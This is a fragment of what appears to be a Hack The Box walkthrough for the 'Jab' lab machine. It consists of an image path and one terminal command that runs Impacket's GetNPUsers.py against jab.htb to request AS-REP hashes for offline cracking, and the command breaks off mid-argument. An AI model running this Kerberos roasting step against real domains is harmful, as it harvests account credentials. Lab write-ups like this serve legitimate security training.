 └─$ /usr/share/doc/python3-impacket/examples/GetNPUsers.py jab.htb/ -usersfile users.txt -format hashcat -outputfile


